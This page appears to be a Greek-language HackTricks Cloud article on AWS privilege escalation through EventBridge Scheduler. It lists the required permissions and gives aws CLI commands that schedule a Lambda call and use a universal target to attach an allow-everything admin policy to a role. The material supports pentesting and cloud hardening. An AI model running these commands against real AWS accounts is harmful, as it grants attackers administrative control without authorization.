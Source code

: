 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

Ο EventBridge Scheduler μπορεί να χρησιμοποιηθεί για την κλιμάκωση δικαιωμάτων μέσω προγραμματισμένων κλήσεων σε διάφορες υπηρεσίες AWS. Εκμεταλλευόμενοι την ικανότητά του να καλεί υπηρεσίες σε προγραμματισμένη βάση, οι χρήστες με επαρκή δικαιώματα μπορούν να κλιμακώσουν τα προνόμιά τους. Ακολουθούν μερικές από τις βασικές ενέργειες που μπορεί να ενεργοποιήσει ο EventBridge Scheduler χρησιμοποιώντας προτυπωμένους στόχους:

- Lambda: lambda:InvokeFunction - Κλήση λειτουργιών Lambda σε προγραμματισμένο χρόνο.
- CodeBuild: codebuild:StartBuild - Έναρξη έργων AWS CodeBuild.
- CodePipeline: codepipeline:StartPipelineExecution - Ενεργοποίηση εκτελέσεων AWS CodePipeline.
- ECS: ecs:RunTask - Εκτέλεση εργασιών ECS.
- EventBridge: events:PutEvents - Τοποθέτηση γεγονότων στο EventBridge.
- Inspector: inspector:StartAssessmentRun - Έναρξη αξιολογήσεων Amazon Inspector.
- Kinesis: kinesis:PutRecord - Τοποθέτηση εγγραφών σε ροές Kinesis.
- Firehose: firehose:PutRecord - Τοποθέτηση εγγραφών σε ροές παράδοσης Firehose.
- SageMaker: sagemaker:StartPipelineExecution - Έναρξη εκτελέσεων SageMaker pipeline.
- SNS: sns:Publish - Δημοσίευση μηνυμάτων σε θέματα SNS.
- SQS: sqs:SendMessage - Αποστολή μηνυμάτων σε ουρές SQS.
- Step Functions: states:StartExecution - Έναρξη εκτελέσεων AWS Step Functions.

Αυτές είναι μόνο μερικές από τις προτυπωμένες ενέργειες που μπορεί να εκτελέσει ο EventBridge Scheduler. Ωστόσο, χρησιμοποιώντας καθολικούς στόχους, μπορούν να ενεργοποιηθούν πολλές άλλες ενέργειες σε υπηρεσίες AWS. Οι καθολικοί στόχοι επιτρέπουν πιο εκτενείς λειτουργίες API πέρα από τη λίστα με τα πρότυπα.

Περισσότερες πληροφορίες για τον EventBridge Scheduler στο:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `sts:AssumeRole`, `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Οι χρήστες με δικαιώματα `sts:AssumeRole`, `iam:PassRole`, και `scheduler:CreateSchedule or scheduler:UpdateSchedule` μπορούν να κλιμακώσουν τα προνόμιά τους εκμεταλλευόμενοι τον EventBridge Scheduler για να καλέσουν υπηρεσίες χρησιμοποιώντας έναν ρόλο με υψηλότερα προνόμια.

Με αυτά τα δικαιώματα, ένας επιτιθέμενος μπορεί να αναλάβει έναν ρόλο με ανυψωμένα προνόμια και να περάσει αυτόν τον ρόλο στον EventBridge Scheduler κατά τη δημιουργία ή την ενημέρωση ενός προγράμματος. Το πρόγραμμα μπορεί να ρυθμιστεί για να εκτελεί οποιαδήποτε από τις ενέργειες που αναφέρονται προηγουμένως, όπως η κλήση λειτουργιών Lambda, η έναρξη εργασιών ECS, η ενεργοποίηση εκτελέσεων CodePipeline ή οποιαδήποτε λειτουργία από τις 270 υπηρεσίες AWS που υποστηρίζονται από τον EventBridge Scheduler. Προγραμματίζοντας αυτές τις ενέργειες, ένας επιτιθέμενος θα μπορούσε να καταχραστεί υψηλότερα προνόμια για να εκτελέσει μη εξουσιοδοτημένες λειτουργίες σε υπηρεσίες AWS.
\\

Για παράδειγμα, θα μπορούσαν να ρυθμίσουν το πρόγραμμα να καλεί μια λειτουργία Lambda, η οποία είναι μια προτυπωμένη ενέργεια:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
Εκτός από τις προτυπωμένες ενέργειες υπηρεσιών, μπορείτε να χρησιμοποιήσετε καθολικούς στόχους στο EventBridge Scheduler για να καλέσετε μια ευρεία γκάμα API λειτουργιών για πολλές υπηρεσίες AWS. Οι καθολικοί στόχοι προσφέρουν ευελιξία για να καλέσετε σχεδόν οποιοδήποτε API. Ένα παράδειγμα μπορεί να είναι η χρήση καθολικών στόχων προσθέτοντας "AdminAccessPolicy", χρησιμοποιώντας έναν ρόλο που έχει πολιτική "putRolePolicy":
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## Αναφορές

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

